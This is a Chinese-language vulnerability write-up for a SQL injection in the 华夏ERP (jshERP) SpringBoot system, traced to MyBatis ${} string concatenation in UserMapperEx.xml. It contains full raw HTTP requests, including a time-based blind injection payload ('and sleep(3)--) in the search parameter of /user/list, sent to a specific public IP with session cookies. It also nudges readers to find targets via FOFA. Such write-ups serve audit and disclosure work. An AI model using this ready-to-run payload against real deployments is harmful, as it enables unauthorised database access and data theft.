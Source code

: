## 华夏ERP存在SQL注入漏洞

## 漏洞描述

华夏ERP基于SpringBoot框架和SaaS模式，可以算作是国内人气较高的一款ERP项目，但经过源码审计发现其存在多个漏洞，本篇为SQL注入漏洞解。

## 漏洞影响

> 华夏ERP

## FOFA

> 请自测

## 漏洞复现

漏洞复现：

1、漏洞代码位置

```
src/main/resources/mapper_xml/UserMapperEx.xml
```

![图片](resource/华夏ERPSQL注入/1.png)

使用mybatis时 ${} 会对参数和sql语句进行拼接，因而存在sql注入漏洞

2、漏洞验证

正常查询

![图片](resource/华夏ERPSQL注入/2.png)
```
GET /user/list?search=%7B%22userName%22%3A%22%22%2C%22loginName%22%3A%22q%22%2C%22offset%22%3A%221%22%2C%22rows%22%3A%221%22%7D¤tPage=1&pageSize=10&t=1615274773529 HTTP/1.1Host: 47.116.69.14User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36Accept: application/json, text/javascript, */*; q=0.01Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateX-Requested-With: XMLHttpRequestConnection: closeReferer: http://47.116.69.14/pages/manage/user.htmlCookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274745; JSESSIONID=C5EBD91E0E68081AA25F206F2FECAC82; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274770
```

使用sleep延时注入

![图片](resource/华夏ERPSQL注入/3.png)

```
GET /user/list?search=%7B%22userName%22%3A%22'and+sleep(3)--%22%2C%22loginName%22%3A%22q%22%2C%22offset%22%3A%221%22%2C%22rows%22%3A%221%22%7D¤tPage=1&pageSize=10&t=1615274773529 HTTP/1.1Host: 47.116.69.14User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36Accept: application/json, text/javascript, */*; q=0.01Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateX-Requested-With: XMLHttpRequestConnection: closeReferer: http://47.116.69.14/pages/manage/user.htmlCookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274745; JSESSIONID=C5EBD91E0E68081AA25F206F2FECAC82; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274770
```



3、漏洞代码

src/main/java/com/jsh/erp/controller/ResourceController.java

![图片](resource/华夏ERPSQL注入/4.png)

src/main/java/com/jsh/erp/service/CommonQueryManager.java

![图片](resource/华夏ERPSQL注入/5.png)

src/main/java/com/jsh/erp/service/user/UserComponent.java

![图片](resource/华夏ERPSQL注入/6.png)

src/main/java/com/jsh/erp/service/user/UserService.java

![图片](resource/华夏ERPSQL注入/7.png)

src/main/resources/mapper_xml/UserMapperEx.xml

![图片](resource/华夏ERPSQL注入/8.png)
